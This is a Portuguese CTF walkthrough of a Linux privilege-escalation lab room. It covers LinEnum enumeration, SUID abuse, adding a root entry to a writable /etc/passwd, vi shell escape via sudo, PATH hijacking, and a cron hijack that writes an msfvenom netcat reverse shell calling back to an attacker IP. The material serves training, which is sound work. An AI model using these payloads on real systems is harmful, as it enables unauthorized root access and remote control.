

# Introdução

A room trata de técnicas comuns de elevação de privilégios em ambientes com sistema operacional baseado em Linux.
# Execução

## 1 - Get Connected

Nesse item, apenas deve-se iniciar a VM alvo.

Não há necessidade de responder nenhuma questão.

## 2 - Understanding Privesc

O que siginifica Elevação de Privilégios (Privilege Escalation)?

De forma objetiva, é uma forma de passar de uma permissão adquirida (em uma exploração) inicialmente mais básica para um nível de permissão mais alta.

Dificilmente em um CTF ou pentest no mundo real, consegue-se obter um acesso na exploração que já tenha uma permissão de aministrador. Por isso, é importante conhecer técnicas para elevar privilégios.

Com a elevação de privilégios efetivada em um alvo, pode-se:
- Reset de senhas;
- Bypass em controles de acesso para comprometer dados protegidos;
- Editar configurações de softwares;
- Habilitar persistência de acesso, permitindo retornar ao alvo posteriormente;
- Alterar privilégios de usuários;
- Poder utilizar outros comandos que apenas o superusuário pode usar.

Neste item não necessidade de responder nenhuma questão.

## 3 - Direction of Privilege Escalation

Árvore de elevação de privilégios:


Existem duas variantes principais de elevação de privilégios:

- Elevação de privilégios horizontal: é quando consegue-se mudar para outro usuário com nível de permissão similar ao usuário inicial comprometido. Há possibilidade do novo usuário possuir alguma permissão que permita elevar para um superusuário, como por exemplo, alguma permissão de SUID.

- Elevação de privilégios vertical: é quando consegue-se mudar para um usuário com mais privilégios ou mesmo um superusuário.

Neste item não há necessidade de responder questões.

## 4 - Enumeration

Enumeration ou enumeração é uma forma de listar (enumerar) possíveis fraquezas no host alvo explorado. Essa enumeração pode ser realizada manualmente com alguns comandos do próprio S.O., mas existem scripts e ferramentas que nos auxiliam nessa tarefa. 

Um script bash bastante conhecido e útil é o [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).

Algumas vezes o host alvo não possui acesso à internet, o que dificulta obter o script. Para contornar isso, existem outras formas. Uma forma é realizar o download do LinEnum na máquina do atacante, subir um serviço http e no host alvo realizar o download via comando curl ou mesmo wget.

### Enviando o LinEnum para host alvo:

1. Realize o download no host atacante com o comando wget:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/commonlinuxprivesc]
└─# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2022-07-10 10:49:23--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh           100%[===================>]  45.54K  --.-KB/s    in 0.04s   

2022-07-10 10:49:23 (1.10 MB/s) - ‘LinEnum.sh’ saved [46631/46631]

```
2. Inicie um http server usando python no diretório que se baixou o LinEnum.sh:

```shell
python3 -m http.server 8000
```
Com o comando acima, iniciou-se um server http na porta 8000.

3. Realize o download no host alvo do script LinEnum.sh com o comando:

```shell
user3@polobox:~$ wget http://10.8.95.233:8000/LinEnum.sh
```
O ip informado acima é o ip do host atacante, no qual está executando um http server na porta 8000. Saída do comando abaixo:

```shell
user3@polobox:~$ wget http://10.8.95.233:8000/LinEnum.sh
--2022-07-10 10:43:10--  http://10.8.95.233:8000/LinEnum.sh
Connecting to 10.8.95.233:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 646573 (631K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh           100%[===================>] 631.42K   209KB/s    in 3.0s    

2022-07-10 10:43:14 (209 KB/s) - ‘LinEnum.sh’ saved [646573/646573]

```

Deve-se adicionar permissão de execução no arquivo com:

```shell
user3@polobox:~$ chmod +x LinEnum.sh 
```
Para executar:

```shell
user3@polobox:~$ ./LinEnum.sh 
```

Após a execução, serão exibidas em tela uma série de informações que podem servir de ponto de partida para elevação de privilégios.

A saída do script é organizada por seções. Algumas informações importantes são versão do kernel, arquivos sensíveis/importantes com permissão de leitura e escrita, arquivos com SUID (Set owner User ID up on execution), crontab, etc.

Essas informações podem auxiliar a na elevação de privilégios.

### Questões:

- a. A primeira questão é apenas realizar uma verificação inicial no host alvo. Não há necessidade de responder nada.

- b. ***What is the target's hostname?***: *polobox*

- c. ***Look at the output of /etc/passwd how many "user[x]" are there on the system?***: *8*

Para responder a questão ***c***, basta executar:

```shell
user3@polobox:~$ cat /etc/passwd | grep user

hplip:x:113:7:HPLIP system user,,,:/var/run/hplip:/bin/false
user1:x:1000:1000:user1,,,:/home/user1:/bin/bash
user2:x:1001:1001:user2,,,:/home/user2:/bin/bash
user3:x:1002:1002:user3,,,:/home/user3:/bin/bash
user4:x:1003:1003:user4,,,:/home/user4:/bin/bash
user5:x:1004:1004:user5,,,:/home/user5:/bin/bash
user6:x:1005:1005:user6,,,:/home/user6:/bin/bash
user7:x:1006:0:user7,,,:/home/user7:/bin/bash
user8:x:1007:1007:user8,,,:/home/user8:/bin/bash
```

- d. ***How many available shells are there on the system?***: *4*

Para responder a questão ***d***, basta procurar na saída do script LinEnum.sh na seção Available Shells:

```shell
[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
```

- e. ***What is the name of the bash script that is set to run every 5 minutes by cron?***: *autoscript.sh*

Para responder a questão ***e***, basta procurar na saída da execução do LinEnum.sh pela linha:

```shell
# m h dom mon dow user  command
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
```

- f. ***What critical file has had its permissions changed to allow some users to write to it?***: */etc/passwd*

Para responder a questão ***f***, localize na saída da execução do LinEnum.sh o seguinte trecho:

```shell
[-] Can we read/write sensitive files:
-rw-rw-r-- 1 root root 2694 Mar  6  2020 /etc/passwd
-rw-r--r-- 1 root root 1087 Jun  5  2019 /etc/group
-rw-r--r-- 1 root root 581 Apr 22  2016 /etc/profile
-rw-r----- 1 root shadow 2359 Mar  6  2020 /etc/shadow
```
- g. ***Well done! Bear the results of the enumeration stage in mind as we continue to exploit the system!***: *Não há necessidade de resposta*

## Abusing SUID/GUID Files

Pode-se dizer que o primeiro passo para elevação de privilégios é buscar por arquivos que tenham setado o bit SUID/GUID. Esses arquivos podem permitir executar com permissões de owner/group, que por vezes, oferecem elevação de privilégios, como de superusuário.

### O que é um binário com SUID?

Em ambientes Linux, tudo são arquivos, incluindo diretorios e dispositivos. Esses elementos possuem permissões que são configuradas em três aspectos: leitura, gravação e execução (read, write e execute - rwx). Isso é usado para restringir ou liberar.

Essas permissões básicas podem ser indicadas por meio de letras ou números:

```
r = read

w = write

x = execute

    user     group     others

    rwx       rwx       rwx

    421       421       421

```

Conforme ilustrado acima, existem três grupos de permissão: user (owner), group e others.

O número máximo de bits que pode ser usado para definir a permissão para cada usuário é 7, que é uma combinação da operação de leitura (4), gravação (2) e execução (1). Por exemplo, se você definir permissões usando "chmod" como 755, será: rwxr-xr-x.

Mas quando uma permissão especial é dada a cada usuário, ela se torna SUID ou SGID. Quando o bit extra “4” é definido como usuário (Proprietário), ele se torna SUID (Definir ID do usuário) e quando o bit “2” é definido como grupo, ele se torna SGID (Definir ID do grupo).

Portanto, as permissões a serem procuradas ao buscar por SUID são:

```
SUID:

rws-rwx-rwx

GUID:

rwx-rws-rwx
```

No estágio de enumeration, executado com o script LinEnum, já é possível identificar os arquivos com essa permissão especial. Entretanto, Para localizar arquivos com essas permissões especiais, pode-se utilizar, também, o comando find, conforme abaixo:

```shell
find / -perm -u=s -type f 2>/dev/null
```
Alguns esclarecimentos:
- **find** - Inicia o comando "find"

- **/** - Pesquisa em todo o sistema de arquivos

- **-perm** - procura por arquivos com permissões específicas

- **-u=s** - Qualquer um dos modos de bits de permissão é definido para o arquivo. Modos simbólicos são aceitos nesta forma

- **-type f** - Procura apenas por arquivos

- **2>/dev/null** - Suprime erros

Se quiser passar para o comando ***ls*** a saída do comando anterior, para melhor exibição:

```shell
find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
```
Execução no host alvo:

```shell
user3@polobox:~$ find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
-rwsr-xr-x 1 root root 113336 Apr 25  2019 /sbin/mount.nfs
-rwsr-xr-x 1 root root 18400 Sep 25  2017 /sbin/mount.ecryptfs_private
-rwsr-xr-x 1 root root 35600 Mar 29  2018 /sbin/mount.cifs
-rwsr-xr-- 1 root dip 378600 Jun 12  2018 /usr/sbin/pppd
-rwsr-xr-x 1 root root 75824 Jan 25  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 22520 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 44528 Jan 25  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 59640 Jan 25  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 18448 Mar  9  2017 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 76496 Jan 25  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 22528 Mar  9  2017 /usr/bin/arping
-rwsr-xr-x 1 root root 40344 Jan 25  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 149080 Jan 17  2018 /usr/bin/sudo
-rwsr-sr-x 1 root root 10232 Oct 25  2018 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 14328 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Nov 15  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 64424 Mar  9  2017 /bin/ping
-rwsr-xr-x 1 root root 44664 Jan 25  2018 /bin/su
-rwsr-xr-x 1 root root 146128 Nov 30  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 43088 Oct 15  2018 /bin/mount
-rwsr-xr-x 1 root root 26696 Oct 15  2018 /bin/umount
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 8392 Jun  4  2019 /home/user5/script
-rwsr-xr-x 1 root root 8392 Jun  4  2019 /home/user3/shell
```

### Questões:

- a. ***What is the path of the file in user3's directory that stands out to you?***: /home/user3/shell

- b. ***We can do this by running: "./shell"***: *Não há necessidade de resposta*

- c. ***Congratulations! You should now have a shell as root user, well done!***: *Não há necessidade de resposta*

Quando executa-se o script shell, obtém-se um shell de root:

```shell
user3@polobox:~$ ./shell 
You Can't Find Me
Welcome to Linux Lite 4.4 user3
 
Monday 11 July 2022, 07:27:54
Memory Usage: 332/1991MB (16.68%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
root@polobox:~# 
```

## Exploiting a writable /etc/passwd

A partir da enumeração de usuários, constata-se que o user7 é um membro do grupo root com gid 0. Sabe-se, também, pela varredura do LinEnum que o arquivo /etc/passwd é gravável para o usuário. Portanto, a partir dessa observação, conclui-se que o user7 pode editar o arquivo /etc/passwd.

```shell
user3@polobox:~$ cat /etc/passwd | grep user7
user7:x:1006:0:user7,,,:/home/user7:/bin/bash
user3@polobox:~$ ls -l /etc/passwd
-rw-rw-r-- 1 root root 2694 Mar  6  2020 /etc/passwd
```
### Entendendo melhor o /etc/passwd

O arquivo /etc/passwd armazena informações essenciais, que são necessárias durante o login. Em outras palavras, ele armazena informações da conta do usuário. O /etc/passwd é um arquivo de texto simples. Ele contém uma lista das contas do sistema, fornecendo para cada conta algumas informações úteis, como ID do usuário, ID do grupo, diretório inicial, shell e muito mais.

O arquivo /etc/passwd deve ter permissão de leitura geral, pois muitos utilitários de comando o utilizam para mapear IDs de usuários para nomes de usuários. No entanto, o acesso de gravação ao /etc/passwd deve ser limitado apenas para a conta superusuário (root). Quando isso não acontece ou um usuário foi adicionado erroneamente a um grupo com permissão de gravação, existe uma vulnerabilidade que pode permitir a criação de um usuário root que pode ser utilizado para elevação de privilégios.

### Compreendendo o formato /etc/passwd

O arquivo /etc/passwd contém uma entrada por linha para cada usuário (conta de usuário) do sistema. Todos os campos são separados por um "**:**". São no total sete campos. Geralmente, a entrada do arquivo /etc/passwd tem a seguinte aparência:

```shell
teste:x:0:0:raiz:/raiz:/bin/bash
```
Usando o ":" como separador, tem-se os campos abaixo:
- ***Username***: É usado quando o usuário faz login. Deve ter entre 1 e 32 caracteres.
- ***Password***: Um **x** indica que a senha criptografada está armazenada no arquivo ***/etc/shadow***. Uma observação é que é preciso usar o comando passwd para calcular o hash de uma senha digitada na CLI ou para armazenar/atualizar o hash da senha no arquivo ***/etc/shadow***, neste caso, o hash da senha é armazenado como um "**x**".
- ***User ID (UID)***: Cada usuário deve receber um ID de usuário (**UID**). **UID 0** (zero) é reservado para root e **UIDs 1-99** são reservados para outras contas predefinidas. Os **UID 100-999** são reservados pelo sistema para contas/grupos administrativos e do sistema - contas de sistema.
- ***Group ID (GID)***: O ID do grupo primário (armazenado no arquivo ***/etc/group***)
- ***User ID Info***: O campo de comentários. Ele permite que você adicione informações extras sobre os usuários, como nome completo do usuário, número de telefone, etc. 
- ***Home directory***: O caminho absoluto para o diretório home do usuário. Se este diretório não existir, o diretório de usuários se tornará "**/**".
- ***Command/shell***: Caminho absoluto para um comando ou shell padrão do usuário. O mais comum é ser um shell, mas não precisa ser um shell.

### Como explorar um /etc/passwd com permissão de escrita

É muito simples, se o arquivo ***/etc/passwd*** é gravável, pode-se escrever uma nova entrada de linha de acordo com o formato indicado anteriormente, criando assim um novo usuário! Adiciona-se o hash de senha de nossa escolha e definimos o UID, GID e shell como root. Com isso, é possível fazer login com um usuário com privilégios de root!

### Questões:

- a. ***Frst, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user7, with the password "password"***: *Não há necessidade de responder*

- b. ***Having read the information above, what direction privilege escalation is this attack?***: *Vertical*

- c. ***What is the hash created by using this command with the salt, "new" and the password "123"?***:  *$1$new$p7ptkEKU1HnaHpRtzNizS1*

Para responder a questão "**c**", é necessário utilizar o comando openssl:

```shell
openssl passwd -1 -salt "new" "123"
```
- ***new*** e ***123*** foram indicados na própria tarefa do tryhacme. Correspondem ao usuário e a senha respectivamente.

- d. ***What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?***: *new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash*

As duas últimas questões não tem necessidade respostas, apenas passam informações adicionais, como por exemplo, usar o comando ***su - new***, para mudar para o usuário ***new***, que tem tem privilégios de ***root***.

É importante destacar que o cenário demonstrado, pressupõe que o ambiente já tinha sido explorado e já se tinha senha do usuário ***user7***.

## Escaping vi editor

Nas informações desta task é informado sobre a importância da etapa de enumeração. Como medida inicial, execução do comando ***sudo -l*** para listar possíveis comandos que o usuário pode executar com algum grau de elevação de privilégios.

Conforme indicado na task, alterna-se para o usuário user8. Em seguida, executa-se:

```shell
user8@polobox:/home/user3$ sudo -l
Matching Defaults entries for user8 on polobox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
```

Como pode ser observado, o usuário tem permissão para executar com permissão de root o comando vi.

### Misconfigured Binaries and GTFOBins

Durante a enumeração, pode-se encontrar um binário mal configurado ou  mesmo quando se verificar quais binários uma conta de usuário que pode acessar. Um bom lugar para procurar como explorá-los é [GTFOBins](https://gtfobins.github.io/). GTFOBins é uma lista com curadoria de binários Unix que podem ser explorados por um invasor para contornar as restrições de segurança locais. Ele fornece um detalhamento realmente útil de como explorar um binário mal configurado e é o primeiro lugar que se deve procurar para atuar em um CTF ou Pentest.

### Questões:

- a. ***First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user8, with the password "password"***: *Não há necessidade de resposta*

- b. ***Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?***: *NOPASSWD*

- c. ***So, all we need to do is open vi as root, by typing "sudo vi" into the terminal.***: *Não há necessidade de resposta*

- d. ***Now, type ":!sh" to open a shell!***: *Não há necessidade de resposta*

Sobre a questão ***d***, como o vi foi iniciado com permissões de root, ao iniciar um shell a partir dele, esse shell será um shell com elevação de privilégios.

Ao abrir o ***vi***, basta pressionar ***esc*** para habilitar o modo de comandos, digitar ***!sh*** e teclar enter. Ai será aberto um shell como root.

```shell
user8@polobox:/home/user3$ sudo vi

# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

## Exploiting Crontab

### O que é o cron?

O daemon Cron é um processo que fica rodando continuamente, responsável por executar tarefas agendadas. Pode-se criar um arquivo crontab contendo comandos e instruções para o daemon Cron executar. Normalmente, chama-se de job uma tarefa agendada.

### Como visualizar quais Cronjobs estão ativos.

Pode-se usar o comando "***cat /etc/crontab***" para ver quais cron jobs estão agendados. É importante sempre verificar manualmente, quando possível, especialmente se o LinEnum, ou um script semelhante, não encontrar nada.

### Formato do cronjob

Cronjobs existem em um determinado formato, ser capaz de ler esse formato é importante se você quiser explorar um cron job, dentro de um escopo de pentest.

- **\#** = ID
- **m** = Minuto
- **h** = Hora
- **dom** = Dia do mês
- **mon** = Mês
- **dow** = Dia da semana
- **user** = Com que usuário será executado
- **command** = Qual comando será executado

Um exemplo:

```shell
#  m   h dom mon dow user  command

17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
```

Pode-se usar o [Crontab Guru](https://crontab.guru/) para validar e aprender mais sobre.

### Como explorar crontab

Na task de varredura do LinEnum, observou-se que o arquivo autoscript.sh, na área de trabalho do user4, está programado para ser executado a cada cinco minutos. Ele é de propriedade do root, o que significa que será executado com privilégios de root, apesar do fato de podermos gravar neste arquivo. A tarefa então é criar um comando que retornará um shell e colá-lo neste arquivo. Quando o arquivo for executado novamente em cinco minutos, o shell estará sendo executado como root.

### Questões: 

- a. ***First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user4, with the password "password"***: *Não há necessidade de resposta*

A questão ***a*** apenas passa orientações.

- b. ***Now, on our host machine- let's create a payload for our cron exploit using msfvenom.***: *Não há necessidade de resposta*

- c. ***What is the flag to specify a payload in msfvenom?***: *-p*

- d. ***Create a payload using: "msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R"***: *Não há necessidade de resposta*

Sobre a questão ***d***, apenas é passada orientação de como gerar um payload com o msfvenon. Deve-se substituir o LOCALIP pelo ip do host atacante.

- e. ***What directory is the "autoscript.sh" under?***: */home/user4/Desktop*

- f. ***Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"***: *Não há necessidade de resposta*

Sobre a questão ***f***, a saída do msfvenom, foi:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/commonlinuxprivesc]
└─# msfvenom -p cmd/unix/reverse_netcat lhost=10.8.95.233 lport=8888 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 89 bytes
mkfifo /tmp/knef; nc 10.8.95.233 8888 0</tmp/knef | /bin/sh >/tmp/knef 2>&1; rm /tmp/knef
```
O Trecho abaixo é o que deve ser adicionado no autoscript.sh, conforme abaixo:

```shell
echo "mkfifo /tmp/knef; nc 10.8.95.233 8888 0</tmp/knef | /bin/sh >/tmp/knef 2>&1; rm /tmp/knef" > autoscript.sh
```

As duas últimas questões também não necessitam de respostas. É informado apenas para executar o netcat para ficar ouvindo na porta 8888 (nc -lvpn 8888) na máquina atacante e aguardar a execução cronjob, que executa a cada 5 minutos. Com isso será aberto um shell reverso para a máquina atacante.

## Exploiting PATH Variable 

### O que é o PATH?

PATH é uma variável de ambiente em sistemas operacionais Linux e Unix que especifica diretórios que contêm programas executáveis. Quando o usuário executa qualquer comando no terminal, ele procura arquivos executáveis ​​com a ajuda da variável PATH em resposta aos comandos executados por um usuário.

Para visualizar o PATH atual, basta digitar no terminal:

```shell
echo $PATH
```

### Como o PATH pode ser utilizado para exploração?

Se existir um binário com SUID, executando-o, podemos ver que ele está chamando o shell do sistema para fazer um processo básico como listar processos com "ps". Ao contrário do exmpleo de SUID anterior, nesta situação não podemos explorá-lo fornecendo um argumento para injeção de comando, então o que podemos fazer para tentar explorar isso?

Podemos reescrever a variável PATH para um local de nossa escolha! Portanto, quando o binário SUID chama o shell do sistema para executar um executável, ele executa um que escrevemos!

Como em qualquer arquivo SUID, ele executará este comando com os mesmos privilégios que o proprietário do arquivo SUID! Se for root, usando este método podemos executar quaisquer comandos que desejarmos como root!

### Questões:

- a. ***Going back to our local ssh session, not the netcat root session, you can close that now, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user5, with the password "password"***: *Não há necessidade de resposta*

- b. ***Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?***: *ls*

- c. ***Now we know what command to imitate, let's change directory to "tmp".***: *Não há necessidade de resposta*

- d. ***What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating***: *echo "/bin/bash" > ls*

Sobre a questão ***d*** adiciona um conteúdo a um arquivo chamado ***ls***, dentro do diretório ***/tmp***. O conteúdo é executar um shell bash. Isso será usado mais adiante, como uma "imitação" de um comando válido.

- e. ***Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?***: *chmod +x ls*

Sobre a questão ***e***, é preciso dá permissão de execução. Aqui um ponto importante, do ponto de vista de defesa, é uma boa prática o "/tmp" está em uma partição ou locical volume a parte, montado sem permissão de execução.

As demais questões não necessitam de respostas.

Mas para concluir a exploração, é preciso alterar a variável PATH, adicionando o diretório que contém o comando imitação com:

```shell
export PATH=/tmp:$PATH
```

Isso fará com que você abra um prompt bash toda vez que usar "***ls***". Se você precisar usar "***ls***" antes de terminar o exploit, use "***/bin/ls***" (caminho absoluto) onde está o executável "***ls***" real.

Depois de terminar o exploit, pode sair do root e usar "***export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH***" para redefinir a variável PATH de volta ao padrão, permitindo que se use "ls" novamente!

